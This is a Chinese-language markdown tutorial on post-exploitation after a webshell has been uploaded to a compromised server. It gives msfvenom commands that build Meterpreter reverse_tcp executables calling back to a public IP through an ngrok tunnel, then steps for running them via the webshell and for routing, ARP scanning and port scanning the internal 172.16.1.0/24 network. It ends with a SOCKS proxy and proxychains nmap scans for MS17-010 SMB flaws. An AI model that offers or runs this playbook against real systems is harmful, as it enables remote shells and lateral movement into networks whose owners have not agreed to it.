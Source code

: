 **场景:由于上传大马到服务器之后由于连接不稳定，导致经常断开连接，故而采用msf反弹shell(msf反弹的shell特别稳定)，并使用msf进行简单的内网msf17-010漏洞扫描**

**1、服务器处于内网**
**2、反弹shell的kali 也处于内网**
**3、需要公网服务器**
**注意:	局域网和局域网之间默认是无法通信的，如果需要局域网中的kali能够访问另外一个局域网的服务器，需要做静态nat或采用其他方式将内网ip地址映射到公网(合法有效)的ip**

**这儿采用的是ngrok内网穿透**

**ngrok的使用参见**[ngrok](http://www.ngrok.cc/)

#### 1、kali运行ngrok客户端和公网服务器建立连接
```java
使用kali 建立会话
root@kali:~# ./sunny clientid 客户端id
    ./sunny clientid fddaab6641599064
```

![](./images/1.png)
#### 2、生成msf反弹程序
```java
公网服务器的ip地址就是ngrok程序sunny客服端连接的地址
可以通过ping 该域名得到对应的ip地址
使用msfvenom生成payload  设置的ip地址为ngrok ip 端口为对应的端口 
msfvenom -p windows/meterpreter/reverse_tcp lhost=64.69.43.237 lport=10875 -f exe > pio.exe
 msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=64.69.43.237 lport=10875 -f exe > lehend.exe
```
![](./images/6.png)
#### 3、kali侦听本地对应的端口
![](./images/2.png)
![](./images/3.png)

#### 4、上传生成的msf反弹程序到服务器，操作大马运行该程序(注意路径问题)，建立会话
![](./images/5.png)
![](./images/4.png)
#### 5、由于权限已经是system权限，直接检测域环境和内网
```java
whoami /all 发现当前服务器没有域环境
arp -a 		发现同网段有大量服务器
```
![](./images/7.png)

#### 5、添加路由，扫描网段

**注意每次退出meterpreter之前先挂起**

**为了使msf中模块更好的扫描1.0网络给shell添加路由**

```java
run autoroute -s 172.16.1.0/24
run post/windows/gather/arp_scanner RHOSTS=172.16.1.0/24
```
![](./images/8.png)
#### 6、当然也可以挂起会话，使用msf自带的扫描模块进行扫描，作用还是比较大的
```java
msf5 exploit(multi/handler) > search portscan
msf5 exploit(multi/handler) > use 5
msf5 auxiliary(scanner/portscan/tcp) > set rhosts 172.16.1.0/24
rhosts => 172.16.1.0/24
msf5 auxiliary(scanner/portscan/tcp) > set threads 30
threads => 30
msf5 auxiliary(scanner/portscan/tcp) > run
```
![](./images/9.png)

#### 7、如何调用外部工具进行端口扫描呢？（比如nmap）
**通过meterpreter建立的会话设置代理**
**1、修改 vi /etc/proxychains.conf 配置文件设置socks4代理的端口**
![](./images/10.png)
![](./images/11.png)

**2、调用socks代理**
![](./images/12.png)
![](./images/13.png)
**设置监听的地址和端口，和上面proxychains.conf配置文件中的一致**
![](./images/14.png)

**运行，可以看到socks4的代理已经成功开启**
![](./images/15.png)

#### 8、使用proxychains驱动namp进行扫描
```java
proxychains nmap -sT -sV -Pn -n -p22,80,135,139,445 --script=smb-vuln-ms*.nse 172.16.1.0/24
-Pn的目的是防止目标服务器禁ping
```
![](./images/16.png)

